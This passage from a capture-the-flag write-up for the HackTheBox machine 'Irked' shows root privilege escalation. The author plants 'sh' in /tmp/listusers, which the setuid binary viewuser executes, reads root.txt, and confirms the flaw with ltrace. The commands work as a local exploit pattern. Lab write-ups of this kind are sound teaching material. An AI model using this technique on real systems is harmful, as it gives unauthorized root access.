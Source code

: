     
    
    djmardov@irked:~$ echo sh > /tmp/listusers 
    djmardov@irked:~$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2018-11-20 11:57 (:0)
    djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
    djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
    # id
    uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
    

And I can grab `root.txt`:

    
    
    # cat /root/root.txt
    8d8e9e8b...
    

To get a definitive look, I’ll remove `/tmp/listusers` and run it with
`ltrace`:

    
    
    root@term:~/hackthebox/irked-10.10.10.117# ltrace ./viewuser 
    __libc_start_main(0x5655c57d, 1, 0xff983a54, 0x5655c600 <unfinished ...>
    puts("This application is being devleo"...This application is being devleoped to set and test user permissions
    )                                                   = 69
    puts("It is still being actively devel"...It is still being actively developed
    )                                                   = 37
    system("who"root     :1           2018-11-20 09:21 (:1)
    root     pts/3        2018-11-20 13:02 (tmux(2029).%9)
    root     pts/7        2018-11-20 10:32 (tmux(2029).%4)
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                        = 0
    setuid(0)                                                                                     = 0
    system("/tmp/listusers"sh: 1: /tmp/listusers: not found
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                        = 32512
    +++ exited (status 0) +++
    

There I see the call to `system("who")` and then `system("/tmp/listeners")`.

## Beyond Root

### Metasploit & Process List Payloads
